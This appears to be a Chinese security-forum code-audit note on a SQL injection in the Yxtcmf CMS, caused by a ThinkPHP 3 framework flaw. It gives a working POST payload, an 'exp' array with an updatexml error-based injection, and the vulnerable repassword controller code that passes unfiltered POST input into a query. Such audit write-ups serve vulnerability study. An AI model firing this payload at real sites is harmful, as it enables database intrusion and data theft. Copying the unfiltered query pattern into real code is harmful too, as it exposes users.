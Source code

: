 ```php

#代码审计-案例2-Yxtcmf_Tp3本身框架SQL注入（本身的框架漏洞）
流程：入口-版本-调试-路由-特定漏洞特性写法搜索或版本漏洞触发关键字
参考：https://y4er.com/post/thinkphp3-vuln/
password=123456&repassword=123456&tel[0]=exp&tel[1]=='111' and updatexml(1,concat(0x7e,user(),0x7e),1)#
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-25d993b9eda1a5f34d55dd0ef91002eedd8ca9a7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-25d993b9eda1a5f34d55dd0ef91002eedd8ca9a7.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-de6781a6271453bc61891ef3f32cfd42a067bac6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-de6781a6271453bc61891ef3f32cfd42a067bac6.png)

结合版本 百度搜历史漏洞  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-06d1b59b6c1a3916f0651abdbfc977d0af409956.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-06d1b59b6c1a3916f0651abdbfc977d0af409956.png)  
搜索where关键字  
yxtcmf\\application\\User\\Controller\\RegisterController.class.php  
直接获取参数 无任何过滤

```php
function repassword(){
    $users_model=M("Users");
    $mobile_verify=$_POST['mobileCode'];
    $password=$_POST['password'];
    $repassword=$_POST['repassword'];
    $mobile=$_POST['tel'];
    $where['mobile']=$mobile;
      if(strlen($password) < 5 || strlen($password) > 20){
      $result['code']='password';
      $result['success']=false;
      $result['message']="密码长度至少5位，最多20位！";
      }elseif($password !=$repassword){
      $result['code']='repassword';
      $result['success']=false;
      $result['message']="两次密码不一致！";
      }elseif($mobile_verify =$_SESSION['mobile_verify']){
      $result['code']='mobile_verify';
      $result['success']=false;
      $result['message']="手机验证码不正确！";
    }elseif(!$users_model->where($where)->find()){
      $result['code']='user';
      $result['success']=false;
      $result['message']="该手机号未注册！";
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a983fce19e9caaf111d4496f4ce4d7626d7807a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a983fce19e9caaf111d4496f4ce4d7626d7807a1.png)